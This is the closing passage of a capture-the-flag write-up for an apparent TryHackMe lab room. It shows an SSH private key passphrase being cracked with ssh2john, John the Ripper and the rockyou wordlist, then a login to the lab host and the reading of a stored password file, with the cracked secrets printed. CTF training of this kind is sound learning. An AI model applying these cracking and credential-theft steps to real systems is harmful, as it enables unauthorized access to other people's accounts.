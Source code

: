 ```
Viewed the key, copied the text and pasting it into my own file kayrsa.txt to login via ssh key, but failed due to the key needing a passphrase:
```
Enter passphrase for key 'kayrsa.txt': 
kay@10.10.52.25's password: 
Permission denied, please try again.
```
No worries, from this we can use JohnTheRipper a tool used to crack the passphrase: 
```
kali@kali)-[~]
└─$ /usr/share/john/ssh2john.py kayrsa.txt > crack
```
Run john on the file to output to another file called crack or whatever you want. Then use a wordlist like rockyou to crack it open!
```
kali@kali: john crack --wordlist=/usr/share/wordlists/rockyou.txt
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kayrsa.txt)     
1g 0:00:00:00 DONE (2024-04-16 18:15) 8.333g/s 689466p/s 689466c/s 689466C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

We’ve found the passphrase (beeswax)! Now we can finally log on to kay.

From here  we can obtain the final password: 
ssh -i kayrsa.txt kay@10.10.52.25                  
Enter passphrase for key 'kayrsa.txt': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```
10. I’ve obtained the final password: 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$

Room challenge complete.


[1]: https://github.com/d0nCyR/CTFs/blob/main/THM/BasicPenTest/pics/nmap.png
[2]: https://github.com/d0nCyR/CTFs/blob/main/THM/BasicPenTest/pics/development.png
